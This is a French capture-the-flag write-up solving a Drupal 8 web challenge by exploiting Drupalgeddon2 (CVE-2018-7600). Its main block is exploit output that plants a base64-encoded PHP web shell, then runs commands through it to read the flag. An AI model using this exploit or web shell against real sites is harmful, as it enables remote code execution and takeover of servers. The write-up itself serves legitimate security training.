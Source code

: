 # Hackerlab2019 – Armageddon (End Game) ?

* **Categorie:** Web
* **Points:** 300

## Challenge

Votre unité de cyber-amazones est envoyée pour défendre le pays contre l'Armageddon invoqué par DJAKPATAGLO. C'est le clap de fin du #Hackerlab2019.

http://qualif.hackerlab.bj:8082


## Solution
Le lien de ce challenge nous renvoyait vers un site drupal.<br>
![](images/Armagueddon1.png)

D'abord, commençons par vérifier la version de Drupal et voyons si elle a des vulnérabilités. En affichant, le code source de la page qui s'est affichée, nous avions pu constaté que le site fonctionne avec la version 8 de drupal.
```html
<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
```


L'outil Searchsploit sous kali nous a permi de rechercher les exploits disponibles dans Exploit-DB sans utiliser internet.
![](images/Armagueddon2.png)

Nous avons pu identifier que Drupal 8 est vulnérable à <b>Drupalgeddon2</b>. Suite à une recherche rapide sur Google, nous avons compris que cette vulnérabilité référencée CVE-2018-7600 permet à un attaquant distant d'exécuter du code arbitraire sur le système afin d'un prendre le contrôle.

Notre objectif maintenant est d'exploiter cette faille pour trouver le flag afin de continuer avec d'autres challenges.

Ainsi, après quelques recherches sur google, nous avons récupéré un exploit qui permet de déployer un `<< reverse shell >>` afin d'exécuter n'importe quelle commande de notre choix sur le système où le site a été hébergé.

![](images/Armagueddon3.png)

L'exploit a été écrit dans le language [Ruby](https://fr.wikipedia.org/wiki/Ruby).

```bash
lick@host:~$ ./drupalgeddon2.rb qualif.hackerlab.bj:8082
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://qualif.hackerlab.bj:8082/
--------------------------------------------------------------------------------
[+] Header : v8 [X-Generator]
[!] MISSING: http://qualif.hackerlab.bj:8082/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://qualif.hackerlab.bj:8082/core/CHANGELOG.txt    (HTTP Response: 200)
[!] MISSING: http://qualif.hackerlab.bj:8082/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Header : v8 [X-Generator]
[!] MISSING: http://qualif.hackerlab.bj:8082/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://qualif.hackerlab.bj:8082/core/includes/bootstrap.inc    (HTTP Response: 403)
[!] MISSING: http://qualif.hackerlab.bj:8082/includes/database.inc    (HTTP Response: 404)
[+] Found  : http://qualif.hackerlab.bj:8082/    (HTTP Response: 200)
[+] Metatag: v8.x [Generator]
[!] MISSING: http://qualif.hackerlab.bj:8082/    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/register)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: mail)
[i] Payload: echo PCEKZFIX
[+] Result : PCEKZFIX
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://qualif.hackerlab.bj:8082/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://qualif.hackerlab.bj:8082/shell.php' -d 'c=hostname'
97c08f3b7cc3>> ls
LICENSE.txt
README.txt
autoload.php
composer.json
composer.lock
core
example.gitignore
flag.txt
hello.txt
index.php
modules
profiles
robots.txt
shell.php
sites
themes
update.php
vendor
web.config
97c08f3b7cc3>> cat flag.txt
CTF_CyberAmazonWinArmagedon
97c08f3b7cc3>>
```
Enfin, nous pouvons passer à un autre challenge en soumettant le flag `CTF_CyberAmazonWinArmagedon` pour ce challenge!

Enjoy,<br>
\-[Kyb3R](https://twitter.com/LickosA)
